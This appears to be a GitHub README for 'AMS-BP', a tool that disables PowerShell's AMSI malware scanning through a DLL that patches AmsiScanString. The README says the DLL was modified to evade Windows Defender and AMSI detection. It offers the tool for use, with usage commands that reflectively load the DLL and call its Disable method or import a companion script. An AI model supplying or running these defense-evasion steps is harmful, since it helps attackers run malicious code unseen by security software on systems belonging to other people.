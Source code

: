 # AMS-BP
AMSI Bypass for powershell
# AMS-BP
Bypass Powershell AMSI using a simple script.
This Script is comprised of a DLL (source file included) which when loaded and executed will disable AmsiScanString.
This DLL is based on [CyberArk Post](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/) with some minor changes to defeat Windows Defender and AMSI itself which now recognizes the strings inside the DLL when it is loaded.

## Usage:
__Using the DLL__
```powershell
PS C:\> [Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
PS C:\> [BP.AMS]::Disable()
```
__Using the .ps1 script__
```powershell
PS C:\> Import-Module .\AMSBP.ps1
PS C:\> AMSBP
```

